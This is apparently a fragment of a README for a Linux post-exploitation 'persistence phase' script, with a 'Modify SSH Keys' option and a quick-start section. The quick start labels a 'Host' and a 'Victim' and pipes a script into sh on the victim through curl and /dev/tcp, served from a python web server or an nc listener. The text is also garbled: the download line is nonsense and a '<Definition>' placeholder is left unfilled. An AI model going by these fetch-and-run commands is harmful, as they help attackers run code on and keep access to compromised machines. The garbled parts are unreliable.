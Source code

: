 # Persistence Phase

<Definition>

Available parts:
- Modify SSH Keys

## Quick Start


```bash
# From github
curl -L github....file..bblablal
```




```bash
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```


## Results

Results stored to output/ directory.

## Compatibility

The script is fully POSIX compatible and can run on most unix-based (POSIX/Unix/Linux) systems. 